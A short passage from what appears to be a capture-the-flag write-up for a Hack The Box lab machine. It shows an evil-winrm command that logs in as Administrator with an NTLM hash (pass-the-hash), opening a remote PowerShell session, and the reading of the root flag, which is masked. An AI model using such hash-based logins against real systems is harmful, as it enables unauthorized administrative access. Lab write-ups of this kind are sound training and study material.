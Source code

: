 And use to gain access to `Administator` shell and obtain root flag
```
┌──(magicrc㉿perun)-[~/Tools]
└─$ evil-winrm -i htb.local -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat C:\Users\Administrator\Desktop\root.txt
********************************
```
